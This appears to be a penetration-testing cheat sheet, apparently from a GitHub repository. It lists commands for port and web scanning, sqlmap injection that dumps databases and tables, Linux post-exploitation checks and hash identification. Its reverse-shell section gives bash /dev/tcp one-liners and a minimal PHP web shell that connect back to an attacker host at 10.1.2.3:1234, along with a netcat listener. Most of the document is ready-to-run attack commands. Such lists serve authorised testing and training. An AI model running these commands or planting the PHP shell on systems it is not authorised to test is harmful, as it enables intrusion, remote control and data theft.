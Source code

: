 # Recon and Initial Access

## Nmap
Scan all TCP ports quickly
```
nmap -Pn -n -v -sT -p- -T5 10.0.1.2
```

In-depth scan specific ports
```
nmap -Pn -n -v -sT -p 22,80 -A 10.0.1.2
```

## WebApp Scanners
Nikto vulnerability scanner
```
nikto -h 10.1.2.3 -C all
```

[whatweb](https://www.kali.org/tools/whatweb/) web technology identifier
```
whatweb -v -a 3 192.168.0.102
```

## WebApp Enumeration
Path enumeration with dirbuster:
```
dirb http://10.10.11.253
```

## SQL Injection - SQLMap
Check fields in HTTP GET
```
sqlmap -u "http://10.2.3.4/path/vulnerable.php?fieldname=value" -p fieldname --level 5 --risk 3 --dbs
```

Use intercepted request from Burp:
```
sqlmap -r request.txt ...
```

Dump databases:
```
sqlmap -r request.txt -p [parameters to test] --level 5 --risk 3 --dbs
```

Dump tables for given database:
```
sqlmap -r request.txt -p [parameters to test] --level 5 --risk 3 -D db_name --tables
```

Dump given table for given database:
```
sqlmap -r request.txt -p [parameters to test] --level 5 --risk 3 -D db_name -T table_name --dump
```

## Reverse Shells

### Netcat Receiver
```
nc -lvnp [receiving port]
```

### Bash TCP
```
/bin/bash -i >& /dev/tcp/10.1.2.3/1234 0>&1
/bin/bash -l > /dev/tcp/10.1.2.3/1234 0<&1 2>&1
```
[ref](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp)

### Minimal php
```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.1.2.3/1234 0>&1'");
?>
```

# Post-Exploitation Recon (Linux)
User info, groups, etc
```
whoami
groups
```

Available sudo options
```
sudo -l
```

# Credential Access
## Password Hashes
Lookup hash type:
```
hashid -m "hash"
```

```
$ hashid -m '$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2'
Analyzing '$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```

